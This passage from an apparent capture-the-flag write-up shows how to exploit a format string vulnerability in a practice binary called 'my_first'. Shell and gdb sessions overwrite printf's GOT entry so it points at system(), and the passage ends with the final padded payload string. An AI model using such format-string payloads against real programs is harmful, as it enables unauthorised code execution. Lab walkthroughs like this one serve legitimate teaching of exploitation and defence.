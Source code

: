 And so we learn that `system()` lives at `0x40069060`. What does this all mean so far then? Well, we are now going to use the format string vulnerability to write (using `%n`) a new address for `printf()` in the GOT at `08049bfc` to point to `system()` at `0x40069060` instead of its real location.

For us to debug the application while we prepare the required padding for the format string, we will use the `printf()` used to pipe to `./my_first` to redirect to a file instead. Then, in `gdb`, we will run the binary, redirecting the input from the file we will compile with the `printf()`:

```bash
# so, instead of the 4 x A's, we will now place the address
# in the GOT that we want to override, and use the %x format
# string to attempt writing to it
mike@pegasus:~$ printf '1\n1\n\xfc\x9b\x04\x08%%8$n' > t
mike@pegasus:~$ file t
t: data

# then, in gdb, we will grab the output of the new file called
# t, and redirect it as input to my_first
mike@pegasus:~$ gdb -q ./my_first
Reading symbols from /home/mike/my_first...(no debugging symbols found)...done.

# leak the current address that GOT points to for printf()
(gdb) x/x 0x08049bfc
0x8049bfc <printf@got.plt>: 0x080483b6

# run the binary with our exploit (t) as input
(gdb) r < t
Starting program: /home/mike/my_first < t
WELCOME TO MY FIRST TEST PROGRAM
--------------------------------
Select your tool:
[1] Calculator
[2] String replay
[3] String reverse
[4] Exit

Selection:
Enter first number: Enter second number: Error details: ��

Program received signal SIGSEGV, Segmentation fault.
0x00000004 in ?? ()

# inspect the new address the GOT points to for printf()
(gdb) x/x 0x08049bfc
0x8049bfc <printf@got.plt>: 0x00000004
(gdb)
```

This is working exactly as expected. Now all that is left is to pad the format string so that we can have the address `0x40069060` instead of `0x00000004` written. For the math etc involved, refer to the Xerxes2 post I previously mentioned. The resultant format string was `\xfc\x9b\x04\x08\xfe\x9b\x04\x08%%36952u%%8$n%%44966u%%9$n`, with a run in the debugger ending in:

